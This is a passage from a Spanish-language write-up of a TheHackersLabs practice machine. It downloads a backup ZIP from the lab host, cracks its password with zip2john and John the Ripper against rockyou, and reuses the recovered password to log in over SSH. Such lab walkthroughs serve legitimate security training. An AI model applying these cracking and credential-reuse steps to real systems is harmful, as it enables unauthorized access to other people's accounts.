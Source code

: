 Y usamos **wget**, para descargarnos este archivo:
```bash
wget http://192.168.10.70:8080/backup.zip
```

Tratemos de descomprimirlo con la herramienta **unzip**:
```bash
unzip backup.zip
Archive:  backup.zip
   creating: backup/
[backup.zip] backup/Rodgar.txt password:
```
Nos pide una contraseña, por lo que tendremos que crackearlo.

Obtengamos el hash de este **archivo ZIP** con la herramienta **zip2john**:
```bash
zip2john backup.zip > hash
ver 1.0 backup.zip/backup/ is not encrypted, or stored with non-handled compression type
ver 1.0 efh 5455 efh 7875 backup.zip/backup/Rodgar.txt PKZIP Encr: 2b chk, TS_chk, cmplen=36, decmplen=24, crc=5C3C7389 ts=8855 cs=8855 type=0
```

Y con **JohnTheRipper**, crackeamos el hash:
```bash
john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
batman           (backup.zip/backup/Rodgar.txt)     
1g 0:00:00:00 DONE (2025-05-29 18:13) 25.00g/s 307200p/s 307200c/s 307200C/s 123456..hawkeye
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Genial, tenemos la contraseña.

Ahora sí, descomprimamos este archivo:
```bash
unzip backup.zip
Archive:  backup.zip
[backup.zip] backup/Rodgar.txt password: 
 extracting: backup/Rodgar.txt
```
Obtuvimos un archivo de texto.

Si vemos su contenido, podremos ver una especie de contraseña.

Vamos a probarla para entrar al **servicio SSH**:
```bash
ssh rodgar@192.168.10.70
rodgar@192.168.10.70's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.8.0-39-generic x86_64)
...
Last login: Fri May 30 00:15:54 2025
rodgar@TheHackersLabs-Templo:~$ whoami
rodgar
```
